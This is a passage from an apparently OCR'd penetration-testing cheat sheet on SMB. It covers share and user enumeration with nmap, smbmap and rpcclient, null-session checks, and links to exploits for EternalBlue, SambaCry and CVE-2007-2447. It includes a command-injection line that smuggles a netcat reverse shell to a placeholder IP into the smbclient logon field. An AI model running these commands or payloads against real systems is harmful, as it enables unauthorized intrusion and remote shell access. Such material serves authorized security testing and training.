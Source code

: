 ```

20. SMB Shell to Reverse Shell : 

    smbclient -U "username%password" //<IP>/sharename
    smb> logon “/=nc <IP> 4444 -e /bin/bash" 
    
Checklist :
    * Samba symlink directory traversal attack
```
* **Fingerprint SMB Version**
```
smbclient -L //<IP>
```
* **Find open SMB Shares**
```
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24 
```
* **Enumerate SMB Users**

```
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```
* **List shares**

```
smbmap -H [ip/hostname]
echo exit | smbclient -L \\\\[ip]
nmap --script smb-enum-shares -p 139,445 <IP>
```
* **Check for null sessions**

```
smbmap -H [ip/hostname]
rpcclient -U "" -N <IP>
smbclient \\\\[ip]\\[share name]
```
* **SMB Exploits :**
1. Samba "username map script" Command Execution - CVE-2007-2447
    * Version 3.0.20 through 3.0.25rc3
    * Samba-usermap-exploit.py - https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851
2. Eternal Blue - CVE-2017-0144
    * SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016
https://github.com/adithyan-ak/MS17-010-Manual-Exploit
3. SambaCry - CVE-2017-7494
    * 4.5.9 version and before
    * https://github.com/opsxcq/exploit-CVE-2017-7494
* **OTHER TOOLS**

> **nmblookup** - collects NetBIOS over TCP/IP client used to lookup NetBIOS names.
**smbclient**- an ftp-like client to access SMB shares
**nmap** - general scanner, with scripts
**rpcclient** - tool to execute client side MS-RPC functions
**enum4linux** - enumerates various smb functions
wireshark
